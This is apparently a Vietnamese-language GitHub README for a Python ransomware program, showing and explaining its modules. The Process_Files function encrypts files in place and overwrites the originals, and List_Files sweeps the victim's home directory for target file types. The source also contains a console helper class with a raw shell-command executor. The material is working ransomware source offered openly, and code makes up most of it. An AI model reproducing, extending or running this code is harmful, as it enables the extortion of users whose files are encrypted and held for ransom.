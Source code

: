 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
### ENCDEC
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
- Hàm `Process_Files` nhận vào hai tham số: `Private`, một đối tượng `Fernet` được sử dụng để mã hóa và giải mã, và mode, một chuỗi chỉ định chế độ hoạt động (`encrypt` hoặc `decrypt`).
- Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm `List_Files`.
- Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo *.temp*.
- Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
- Sau đó đọc và xử lý từng *chunk* của tệp gốc, với kích thước *chunk* là 4096*1024 byte.
- Mỗi *chunk* sau đó được mã hóa (nếu mode là `encrypt`) hoặc giải mã (nếu mode là `decrypt`) bằng cách sử dụng đối tượng `Fernet`, và sau đó được ghi vào tệp tạm thời.
- Khi tất cả các *chunk* đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. 
- Cuối cùng, nếu tệp tạm thời vẫn tồn tại nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
- Hàm mở tệp ‘*scripts/extensions.yaml*’ để đọc và sử dụng hàm `safe_load(file)` để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến `exts`.

- Tạo một từ điển `file_categories` với các khóa là các danh mục từ `exts` và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong `exts` là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

- Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong `extcategory`, tệp đó sẽ được thêm vào danh mục tương ứng trong `file_categories`.

### SYSTEM
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```
- Hàm getattr được sử dụng để lấy giá trị thuộc tính color từ đối tượng Col.
- Tạo một chuỗi được định dạng và in ra chuỗi đã được định dạng.